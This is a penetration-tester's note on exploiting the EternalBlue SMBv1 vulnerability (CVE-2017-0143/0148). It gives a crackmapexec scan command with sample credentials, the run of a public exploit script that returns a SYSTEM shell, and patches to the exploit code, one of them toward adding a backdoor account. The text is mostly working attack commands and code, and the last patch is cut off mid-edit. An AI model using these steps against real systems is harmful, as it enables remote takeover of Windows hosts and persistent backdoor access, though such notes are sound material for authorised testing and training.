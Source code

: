# EternalBlue / [CVE-2017-0143](https://www.opencve.io/cve/CVE-2017-0143) - [CVE-2017-0148](https://www.opencve.io/cve/CVE-2017-0148)

Vulnerability in [[notes/network/smb|SMBv1]] affects all versions from XP up to Windows 10 1607 and Server 2016.

Discovery.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -d corp.local -u jdoe -p 'passw0rd' -M ms17-010
    ~~~

Exploit with an inline shell from [3ndg4me/autoblue-ms17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).

~~~
$ python3 ./zzz_exploit.py srv01.corp.local
[...]
C:\WINDOWS\system32>whoami
nt-autority\system
~~~

Apply the following patch if you encounter encoding errors:

~~~
--- a/mysmb.py
+++ b/mysmb.py
@@ -519,7 +519,7 @@ class RemoteShell(cmd.Cmd):

     def send_data(self, data):
         self.execute_remote(data)
-        print(self.__outputBuffer.decode())
+        print(self.__outputBuffer.decode(errors='ignore'))
         self.__outputBuffer = b''

 class SMBServer(Thread):
~~~

Exploit with a modified version from [helviojunior/ms17-010](https://github.com/helviojunior/MS17-010) that adds a backdoor account.
This is more reliable then creating a reverse shell.

Apply the following patch:

~~~
--- a/zzz_exploit.py
+++ b/zzz_exploit.py
@@ -1,4 +1,4 @@
-#!/usr/bin/python
+#!/usr/bin/python2
 from impacket import smb, smbconnection
 from mysmb import MYSMB
 from struct import pack, unpack, unpack_from
@@ -972,11 +974,11 @@
 def smb_pwn(conn, arch):
 	smbConn = conn.get_smbconnection()
 	
-	print('creating file c:\\pwned.txt on the target')
-	tid2 = smbConn.connectTree('C$')
-	fid2 = smbConn.createFile(tid2, '/pwned.txt')
-	smbConn.closeFile(tid2, fid2)
-	smbConn.disconnectTree(tid2)
+	#print('creating file c:\\pwned.txt on the target')
+	#tid2 = smbConn.connectTree('C$')
+	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
~~~